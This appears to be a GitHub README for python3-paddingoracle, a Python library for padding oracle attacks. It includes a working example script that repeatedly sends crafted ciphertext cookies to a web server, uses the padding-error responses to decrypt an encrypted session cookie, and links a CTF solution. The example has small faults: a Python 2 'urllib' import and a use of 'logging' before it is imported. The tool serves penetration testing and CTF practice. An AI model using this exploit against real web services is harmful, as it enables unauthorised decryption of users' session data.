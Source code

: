 # python3-paddingoracle

A portable padding oracle exploit API.

## Usage

To use the paddingoracle API, simply implement the **oracle()** method from the
PaddingOracle API and raise a **BadPaddingException** when the decrypter
reveals a padding oracle. To decrypt data, pass raw encrypted bytes to
**decrypt()** with a block size and optional **iv** parameter.

### Example

```python
#!/usr/bin/env python3
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b64encode, b64decode
from urllib import quote, unquote
import requests
import socket
import time

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()
        self.wait = kwargs.get('wait', 2.0)

    def oracle(self, data, **kwargs):
        somecookie = quote(b64encode(data))
        self.session.cookies['somecookie'] = somecookie

        while 1:
            try:
                response = self.session.get('http://www.example.com/',
                           stream=False, timeout=5, verify=False)
                break
            except (socket.error, requests.exceptions.RequestException):
                logging.exception('Retrying request in %.2f seconds...', self.wait)
                time.sleep(self.wait)
                continue

        self.history.append(response)

        if response.ok:
            logging.debug(f'No padding exception raised on {somecookie}')
            return

        raise BadPaddingException

if __name__ == '__main__':
    import logging
    import sys

    if not sys.argv[1:]:
        print(f'Usage: {sys.argv[0]} <somecookie value>')
        sys.exit(1)

    logging.basicConfig(level=logging.DEBUG)

    encrypted_cookie = b64decode(unquote(sys.argv[1]))

    padbuster = PadBuster()

    cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

    print(f'Decrypted somecookie: {sys.argv[1]} => {cookie}')
```

See other example of solving CTF challenge from Pragyan CTF 2022 [here](https://github.com/zakigeyan/python3-paddingoracle/blob/master/example/solve.py).

## Credits

python3-paddingoracle is a Python 3 implementation heavily based on [python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle) and [PadBuster](https://github.com/GDSSecurity/PadBuster).
